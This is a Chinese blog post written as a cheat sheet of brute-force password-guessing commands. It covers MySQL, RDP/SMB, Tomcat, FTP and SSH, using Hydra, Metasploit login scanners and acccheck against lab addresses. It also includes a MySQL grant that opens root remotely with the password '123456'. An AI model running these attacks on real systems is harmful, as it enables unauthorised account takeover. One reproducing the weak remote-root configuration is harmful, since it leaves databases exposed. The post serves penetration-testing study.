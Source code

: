 ```yaml
---
title: 涨姿势！暴力破解方法和工具
index_img: /img/2019-01-18/index.png
date: 2019-01-18 19:39:59
tags: 
- 暴力破解
---
```

**字典虽小，够用就行**
<!--more-->

### 二、 暴力破解
#### 2.1 mysql数据库破解
&emsp;&emsp;# 爆破数据库账号密码，数据库必须要开启3306远程登录
&emsp;&emsp;&emsp;&emsp;2.1.1 Hydra
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;hydra IP地址 -l 用户名 -P 字典 服务名 -V
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;# hydra 192.168.146.141 -l root -P dist.txt mysql -V
&emsp;&emsp;&emsp;&emsp;2.1.2 HexorBase
&emsp;&emsp;&emsp;&emsp;2.1.3 metasploit（search查找模块、back返回）
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;use auxiliary/scanner/mysql/mysql_login
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;# show options
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;set host IP地址
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;set username 用户
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;set PASS_FILE dist.txt
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;set port 端口号
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;run
#### 2.2 mysql数据库配置（对外）
&emsp;&emsp;&emsp;&emsp;2.2.1 3306端口对外开放
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;grant all privileges on *.* to 'root'@'%' identified by '123456' with grant option;
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;flush privileges;（root，123456）
&emsp;&emsp;&emsp;&emsp;2.2.2 Navicat数据库管理软件
&emsp;&emsp;&emsp;&emsp;2.2.3 报错解决方案
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;is blocked because of many connec错误解决方案：
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;进入Mysql数据库查看max_connect_errors： 
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;show variables like 'max_connect_errors';
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;修改max_connect_errors的数量为1000： 
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;set global max_connect_errors = 1000;
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;查看是否修改成功：
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;show variables like 'max_connect_errors';
#### 2.3 3389远程连接爆破
&emsp;&emsp;&emsp;&emsp;2.3.1 DuBrute
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;这个只能爆rdp的，smb的用下面（比如win server）
&emsp;&emsp;&emsp;&emsp;2.3.2 Hydra
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;hydra IP地址 -l 单个账户名 -P 字典路径 服务名 -V
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;# hydra 192.168.146.141 -l administrator -P /top1500.txt rdp -V  (rdp可以换smb)
&emsp;&emsp;&emsp;&emsp;2.3.3 acccheck（smb）
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;acccheck -t 192.168.0.106 -U user.txt -P password.txt
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;acccheck -t 192.168.0.106 -u tian -P dic.txt
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;结果保存在cracked文件中
#### 2.4 Web-Tomcat中间件
&emsp;&emsp;&emsp;&emsp;2.4.1 Metasploit
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;use auxiliary/scanner/http/tomcat_mgr_login
&emsp;&emsp;&emsp;&emsp;2.4.3 对外访问
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;Server.xml
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;<Engine name="Catalina" defaultHost="IP地址"\>
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;<Host name="IP地址" appBase="webapps" npackWARs="true" autoDeploy="true"\>
#### 2.5 ftp爆破
&emsp;&emsp;&emsp;&emsp;2.5.1 Metasploit
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;use auxiliary/scanner/ftp/ftp_login
&emsp;&emsp;&emsp;&emsp;2.5.2 Hydra
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;hydra IP地址 -l 单个账户名 -P 字典路径 服务名 -V
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;# hydra 192.168.146.141 -l admin -P /top1500.txt ftp -V
#### 2.6 ssh爆破
&emsp;&emsp;&emsp;&emsp;2.6.1 Metasploit
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;use auxiliary/scanner/ssh/ssh_login
&emsp;&emsp;&emsp;&emsp;2.6.2 Hydra
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;hydra IP地址 -l 单个账户名 -P 字典路径 服务名 -V
&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;#hydra 192.168.146.141 -l root -P /top1500.txt ssh -V
#### 2.7 Webshell爆破
&emsp;&emsp;&emsp;&emsp;2.7.1 BurpSuite





